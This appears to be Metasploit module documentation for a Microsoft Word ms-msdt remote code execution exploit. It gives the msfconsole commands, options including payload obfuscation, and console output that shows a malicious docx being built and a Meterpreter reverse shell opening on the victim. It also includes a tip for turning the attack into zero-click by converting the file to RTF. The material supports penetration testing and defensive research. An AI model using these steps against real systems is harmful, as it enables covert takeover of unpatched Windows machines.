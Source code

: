 This vulnerability exploit a Remote Code Execution in Microsoft Word.

The vulnerability came to light after an independent cybersecurity research team known as nao_sec
uncovered a Word document (`05-2022-0438.doc`) that was uploaded to VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an `HTML` and then uses the `ms-msdt` scheme to execute `PowerShell` code.

## Vulnerable Application

The CVE has been assigned, but waiting again more details about the impacted versions.

### Make your lab

You need official version of Microsoft Office installed. And stay unpatched for this.

Tested on Microsoft Windows 10 1909 w/ Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

## Scenarios

### Basic use

1. Generate the exploit as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

### The 0-Click tip

You can get the 0-click by converting, manually, the `.docx` file generated by the module into a `.rtf` file format.

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
